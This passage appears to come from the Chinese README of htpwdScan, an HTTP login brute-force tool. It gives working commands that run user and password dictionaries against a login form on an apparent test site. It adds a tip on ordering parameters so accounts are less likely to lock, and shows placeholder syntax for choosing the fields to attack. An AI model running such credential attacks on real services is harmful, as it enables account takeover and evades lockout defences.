 在request.txt文件中，也可以使用函数对参数值进行二次处理。参考 [tests/test_request_file_hash.py](tests/test_request_file_hash.py)

* #### **更换参数顺序，实现密码优先**

设定参数的顺序，只影响程序生成字典的顺序。简单调整参数的顺序，即可实现固定密码，优先遍历用户名，减少账号被锁定的几率。修改上一节的命令：

```
python htpwdScan.py -f request.txt -d passwd=pass.txt login=user.txt --header-fail "login_error=Bad+user+name+or+password"
```

![](docs/params_order_pass_first.png)

* #### 在HTTP请求中，使用占位符选取参数
	

修改上面小节中的 `request.txt` 文件，使用占位符来选取`login参数`和`passwd参数`。也可以选取任意的部分
	POST /login.php?action=login HTTP/1.1
	Host: www.webscantest.com
	Content-Type: application/x-www-form-urlencoded
	Referer: http://www.webscantest.com/login.php
	
	login=$$$admin$$$&passwd=$$$123456$$$&submit_login=login

执行

 `python htpwdScan.py -f request.txt -d 1=user.txt 2=pass.txt --header-fail "login_error=Bad+user+name+or+password"`

可观察到破解任务按照预期执行
